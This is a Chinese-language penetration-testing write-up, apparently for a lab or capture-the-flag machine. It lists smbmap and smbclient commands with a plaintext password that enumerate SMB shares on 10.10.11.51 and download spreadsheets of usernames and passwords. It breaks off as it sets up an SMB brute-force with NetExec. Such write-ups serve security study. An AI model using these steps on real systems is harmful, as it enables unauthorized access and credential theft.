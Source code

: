 ```
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H 10.10.11.51
```

该命令用于 **枚举 Windows 服务器（IP: `10.10.11.51`）的 SMB 共享**，并尝试以 `rose` 账户登录，查看该账户对共享目录的访问权限。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319104015988.png)

```bash
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H 10.10.11.51 -r 'Accounting Department'
```

该命令用于 **递归列出 SMB 共享 `Accounting Department` 目录的所有文件**，尝试以 `rose` 账户访问 `10.10.11.51` 服务器上的 SMB 共享。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319121323243.png)

可以看到有accounting_2024.xlsx和accounts.xlsx

顺便看一下Users目录：

```bash
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H 10.10.11.51 -r 'Users'
smbmap -u 'rose' -p 'KxEPkKe6R8su' -H 10.10.11.51 -r 'Users/Default'
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319121736647.png)

Users/Default：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319122248297.png)

这么多？直接smbclient登上去看

```bash
smbclient //10.10.11.51/Accounting\ Department -U rose%KxEPkKe6R8su
```

下载一下几个敏感文件：

```bash
get accounting_2024.xlsx
get accounts.xlsx
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319123655627.png)

打开看到accounts.xlsx有username和password，其中有个username比较怪，名称为sa

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319170636235.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319170906708.png)

爆破一下看smb有没有可用账户，虽然上面已经给出了。把username和password分别放到两个文件，然后用nxc爆破smb

>NetExec，在kali上叫nxc，自带的工具
>
>![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250319171701230.png)
>
>官方wiki：https://www.netexec.wiki

